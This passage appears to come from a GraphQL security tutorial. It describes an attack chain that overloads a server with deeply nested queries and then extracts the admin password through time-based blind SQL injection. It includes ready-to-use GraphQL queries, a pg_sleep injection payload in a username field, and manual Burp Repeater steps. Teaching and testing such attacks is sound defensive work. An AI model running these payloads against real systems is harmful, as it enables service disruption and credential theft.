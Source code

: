 This attack chain shows how DoS techniques can be leveraged for data exfiltration:

1. **Identifying Expensive Operations**: The attacker identifies resource-intensive operations.

```graphql
query {
  searchProducts(keyword: "") {  # Empty search returns all products
    id
    name
    price
  }
}
```

2. **Creating DoS Conditions**: The attacker creates a nested query that puts significant load on the server.

```graphql
query {
  categories {
    products(first: 1000) {
      reviews(first: 1000) {
        user {
          posts(first: 1000) {
            comments(first: 1000) {
              id
            }
          }
        }
      }
    }
  }
}
```

3. **Timing Attack Preparation**: While the server is under heavy load, the attacker prepares timing-based attacks to extract data.

```graphql
query {
  # First, create heavy load
  search1: searchProducts(keyword: "") { id }
  
  # Then attempt a timing attack
  user(username: "admin' AND (SELECT CASE WHEN SUBSTRING(password,1,1)='a' THEN pg_sleep(5) ELSE pg_sleep(0) END from users where username='admin') --") {
    id
  }
}
```

4. **Manual Timing Attack Execution**:
   - Configure Burp Repeater to send a request containing both a DoS component and an SQL injection with timing components
   - Send requests with different character guesses (a-z, 0-9)
   - Measure the response time for each character
   - When response time is significantly longer, you've identified the correct character
   - Repeat for each position in the target data
